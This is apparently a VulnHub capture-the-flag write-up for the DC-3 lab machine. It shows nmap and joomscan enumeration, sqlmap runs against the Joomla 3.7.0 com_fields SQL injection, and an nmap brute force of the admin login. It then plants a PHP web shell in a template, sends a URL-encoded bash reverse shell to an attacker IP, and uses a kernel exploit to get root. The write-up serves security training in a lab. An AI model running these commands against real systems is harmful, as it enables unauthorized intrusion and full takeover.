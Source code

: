 # DC-3

## 1.Enumeration

```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:0f	(Unknown: locally administered)
192.168.56.100	08:00:27:5f:5e:41	PCS Systemtechnik GmbH
192.168.56.115	08:00:27:31:0f:a8	PCS Systemtechnik GmbH
```

The IP address is `192.168.56.115`, let's scan it.

```bash
root@kali: nmap -sC -sV -p80 -v -oN nmap.out 192.168.56.115

Nmap scan report for 192.168.56.115
Host is up (0.00044s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-title: Home
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-generator: Joomla! - Open Source Content Management
MAC Address: 08:00:27:31:0F:A8 (Oracle VirtualBox virtual NIC)

```

The only open port is port 80, so we have to work on the web application:

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/8d992b5c-3a5d-4d38-898d-917b0ca7228d)

visiting the site, Wappalyzer shows this is a `Joomla` cms, also cheking the target with Nikto shows afew interesting directories :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/d70cfbff-32d9-4a05-b39c-3f9932602930)

so i visited the `/administrator` page :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/b467734b-1e5e-4c24-8038-4392ad61cca1)

this is actually a joomla CMS, let's find the version of it to see any exploit available

there is a tool called `joomscan` that does afew enumeration :

```bash
root@kali: joomscan --url http://192.168.56.115
```
![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/9a056c02-4bd8-43a7-9f4f-4e1fa4ec87e3)

you can also check for the version by visiting the below urls, but it gives an approximate version :

```bash
curl http://192.168.56.115/administrator/manifests/files/joomla.xml | grep version
 curl http://192.168.56.115/language/en-GB/en-GB.xml | grep version
```

then in searchsploit i found afew exploits :

```text
Joomla! 3.7 - SQL Injection | php/remote/44227.php
Joomla! 3.7.0 - 'com_fields' SQL Injection | php/webapps/42033.txt
```

the first one `44227` did not work, but the second one guides through a valid SQLi bug, i used the command mentioned in the document :

```bash
root@kali: #sqlmap -u "http://192.168.56.115/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch
```

sqlmap found the database in use, `joomladb`, then i tried to dump the data out of it, but did not work since it showed an error after running the below command :

```bash
root@kali: sqlmap -u "http://192.168.56.115/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --T '#__users' --dump -p list[fullordering] --batch 
```
![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/8b690314-3d8d-4f09-bfc2-6d0a66c713df)

there must be something with the naming of the table which starts by `#`, so i went to another path and tried to brute force the admin panel

i used metasploit `auxiliary/scanner/http/joomla_bruteforce_login` but my system crushed every time i used this module, so i used nmap instead

put admin in user.txt

```bash
root@kali: nmap -v -sV --script http-joomla-brute --script-args 'userdb=/root/ctf/dc-3/user.txt,passdb=/usr/share/wordlists/rockyou.txt,http-joomla-brute.threads=3,brute.firstonly=true' 192.168.56.115
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/bc195964-9da2-4005-accf-d838e0a5e493)

yes, we found admin password, try to login to panel

after logging in we just need to upload our shell so do as follow :


1- Click on Templates on the bottom left under Configuration to pull up the templates menu.

2- Click on a template name. Let's choose protostar under the Template column header. This will bring us to the Templates: Customise page.

3- F1inally, you can click on a page to pull up the page source. Let's choose the error.php page. We'll add a PHP one-liner to gain code execution as follows:
system($_GET['cmd']);

4- Save & Close

5- curl -s http://192.168.56.115/templates/protostar/error.php/error.php?cmd=id


## 2.Gaining Shell

I just used a python reverse shell and url encoded it to get my shell :

```bash
curl -s http://192.168.56.115/templates/protostar/error.php/error.php?cmd=bash%20%2Dc%20%27exec%20bash%20%2Di%20%26%3E%2Fdev%2Ftcp%2F192%2E168%2E56%2E102%2F4444%20%3C%261%27
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/76f3165c-205f-4cf1-936a-41e65fcb418e)


## 3.Privilege Escalation

First we look at kernel version :

```bash
www-data@DC-3:/var/www/html/templates/protostar$ uname -a

Linux DC-3 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 i686 i686 GNU/Linux
```

```bash
www-data@DC-3:/var/www/html/templates/protostar$ cat /etc/os-release

NAME="Ubuntu"
VERSION="16.04 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
UBUNTU_CODENAME=xenial
```

just searching for its exploit on internet i found [this](https://www.exploit-db.com/exploits/39772)

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f69a9114-4b49-4108-8694-87e90b59d33e)

just download the zip file and upload it on the target and do the instructions :

```bash
www-data@DC-3:~/tmp/ebpf_mapfd_doubleput$ ./compile.sh
www-data@DC-3:~/tmp/ebpf_mapfd_doubleput$ ./doubleput
starting writev
woohoo, got pointer reuse
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.
suid file detected, launching rootshell...
we have root privs now...
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)

cd /root

cat the-flag.txt

__        __   _ _   ____                   _ _ _ _ 
 \ \      / /__| | | |  _ \  ___  _ __   ___| | | | |
  \ \ /\ / / _ \ | | | | | |/ _ \| '_ \ / _ \ | | | |
   \ V  V /  __/ | | | |_| | (_) | | | |  __/_|_|_|_|
    \_/\_/ \___|_|_| |____/ \___/|_| |_|\___(_|_|_|_)
                                                     

Congratulations are in order.  :-)

I hope you've enjoyed this challenge as I enjoyed making it.

If there are any ways that I can improve these little challenges,
please let me know.

As per usual, comments and complaints can be sent via Twitter to @DCAU7

Have a great day!!!!
```

This is how you can get root on the system.










